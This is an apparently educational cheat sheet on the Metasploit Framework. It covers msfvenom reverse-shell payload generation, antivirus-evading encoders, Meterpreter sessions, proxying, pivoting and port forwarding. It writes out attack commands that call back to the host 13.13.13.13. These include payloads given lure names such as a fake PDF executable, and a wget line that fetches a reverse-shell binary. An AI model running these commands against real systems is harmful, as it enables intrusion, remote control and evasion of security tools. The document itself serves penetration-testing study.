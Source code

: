 # Metasploit

## <mark style="color:yellow;">ABOUT</mark>

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

* **What is MS Module?** A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## <mark style="color:yellow;">ARCHITECTURE</mark>

1. <mark style="color:blue;">**Auxiliary**</mark> - Any supporting module, such as scanners, crawlers and fuzzers.
2. <mark style="color:blue;">**Encoders**</mark> - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
3. <mark style="color:blue;">**Evasion**</mark> - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. <mark style="color:blue;">**Exploits**</mark> - Exploits, neatly organized by target system.
5. <mark style="color:blue;">**NOPs**</mark> - `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. <mark style="color:blue;">**Payloads**</mark> - Payloads are codes that will run on the target system.
7. <mark style="color:blue;">**Post**</mark> - Post modules would be useful in post-exploitation.

## <mark style="color:yellow;">MSFVENOM</mark>

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.

* **List Payloads**

```bash
msfvenom -l payloads
```

* **Building a Stageless Payload for Linux**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```

* **Building a Stageless Payload for Windows**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### <mark style="color:blue;">Staged vs Stageless Payloads</mark>

<mark style="color:blue;">**`Staged`**</mark>**&#x20;payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

<mark style="color:blue;">**`Stageless`**</mark>**&#x20;payloads do not have a stage.** So all payload and programs are loaded at first time.

## <mark style="color:yellow;">METERPRETER</mark>

<mark style="color:blue;">**`The Meterpreter`**</mark> payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

### <mark style="color:blue;">Encoder</mark>

* **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

* **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

* **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

### <mark style="color:blue;">Sessions</mark>

* **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

* **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

* **Getting shell**

```bash
msf6 exploit(windows/smb/goose) > shell
```

* **Background session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

* **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

* **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

* **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```

## <mark style="color:yellow;">MAKING PROXY</mark>

<pre class="language-bash"><code class="lang-bash"><strong># Configuring 
</strong><strong>msf6 > use auxiliary/server/socks_proxy
</strong>msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
# Confirming proxy is running
auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
</code></pre>

## <mark style="color:yellow;">PIVOTING</mark>

### <mark style="color:blue;">Autoroute</mark>

<mark style="color:red;">**Autoroute**</mark> is used in penetration testing to enable <mark style="color:purple;">**network pivoting**</mark>, allowing attackers to route traffic through a compromised host to access internal **subnets** that are not directly reachable. This facilitates reconnaissance, exploitation, and lateral movement within isolated or segmented networks.

```bash
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 13.13.13.0
msf6 post(multi/manage/autoroute) > run
meterpreter > run autoroute -s 13.13.13.0/23
meterpreter > run autoroute -p # list active routes
```

### <mark style="color:blue;">Local Port-Forwarding</mark>

```bash
meterpreter > portfwd add -l 1234 -p 4321 -r 13.13.13.13
# Forward all packets on 1234 port to 4321 port on 13.13.13.13 host
```

### <mark style="color:blue;">Remote Port-Forwarding</mark>

```bash
meterpreter > portfwd add -R -l 1234 -p 4321 -L 13.13.13.13
# Forward all packets from 4321 port on 13.13.13.13 to our local 1234 port
```

## <mark style="color:yellow;">USEFUL MSFCONSOLE COMMANDS</mark>

* **Specific Search**

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

* **Get more info about module**

```bash
info
```

* **Permanent Target Specification**

```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

* **Show and Set Target for exploit**

```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

* **Searching for Specific Payload**

```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

* **Use Local Exploit Suggester**

```bash
msf6 > search local exploit suggester
```

* **Ping Sweep**

```bash
run post/multi/gather/ping_sweep RHOSTS=13.13.13.0/23
```

## <mark style="color:yellow;">LIFEHACKS</mark>

* Use wget -o parameter when you want to install revshell file into machine like:&#x20;

```
wget http://13.13.13.13:1337/shell.exe -o shell.exe
```
